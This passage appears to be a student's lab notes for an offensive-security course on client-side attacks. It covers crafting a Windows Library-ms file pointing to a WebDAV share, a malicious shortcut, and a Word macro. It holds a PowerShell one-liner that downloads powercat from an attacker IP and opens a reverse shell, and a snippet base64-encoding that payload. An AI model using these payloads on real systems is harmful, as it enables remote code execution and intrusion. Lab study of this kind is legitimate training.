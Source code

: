 ```xml

<isLibraryPinned>true</isLibraryPinned>
Pin to navigation in explorer, makes it feel authentic

<iconReference>imageres.dll,-1003</iconReference>
What ICON is displayed to user, use imagesres.dll to choose between windows icons
-1002 = Documents folder icon,  -1003 = Pictures folder icon

<templateInfo> <folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType> </templateInfo>
GUID is valid Documents guid.. 

<url>http:/192.168.45.158</url>  - KALI IP
-->
```
- Now when we launch that, we should see our test.txt file, being served by our WebDAV share on KALI
- After connecting, you'll notice Windows modified some parts of the file, which may/will break it if you try to move it to an other machine

### Create Shortcut .LNK
- Right-click, new Shortcut
- Enter powershell command
```powershell
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.158:8000/powercat.ps1');powercat -c 192.168.45.158 -p 4444 -e powershell"
```
- Name shortcut  **automatic_configuration**
- Copy the file to the VM#2 `smbclient //192.168.205.195/share -c 'put config.Library-ms'`


```


# Labs
12.1.1 Q1 
gobuster dir -u 192.168.205.197 -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories.txt -x .pdf -t 20 
exiftool -a -u info.pdf

12.1.2 Q1  : Canary token created : http://canarytokens.com/feedback/51yhmhq24v0uumkrl9v7cmaw2/contact.php


12.2.3 Q1 /Q2 : 
192.168.205.196 client-side-Attacks - Microsoft Word Macro - VM #1 OS Credentials:
192.168.205.198 client-side-Attacks - Microsoft Word Macro - VM #2 OS Credentials:
1. Perform the steps from this section to create a malicious Word document containing a macro with the name **MyMacro** on the _OFFICE_ (VM #1) machine. For this, you have to install Microsoft Office on VM #1 again as outlined in the section "Installing Microsoft Office". Confirm that the macro works as expected by obtaining a reverse shell from the _OFFICE_ machine. We can log in with offsec:lab. What keyword is used to declare a variable in VBA?
2. 
3. Once you have confirmed that the macro from the previous exercise works, upload the document containing the macro _MyMacro_ in the file upload form (port 8000) of the _TICKETS_ (VM #2) machine with the name **ticket.doc**. A script on the machine, simulating a user, checks for this file and executes it. After receiving a reverse shell, enter the flag from the **flag.txt** file on the desktop for the _Administrator_ user. For the file upload functionality, add **tickets.com** with the corresponding IP address in **/etc/hosts**. Please note that it can take up to three minutes after uploading the document for the macro to get executed.
```
$Text = 'IEX(New-Object System.Net.WebClient).DownloadString("http://192.168.45.158/powercat.ps1");powercat -c 192.168.45.158 -p 4444 -e powershell'
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)
$EncodedText =[Convert]::ToBase64String($Bytes)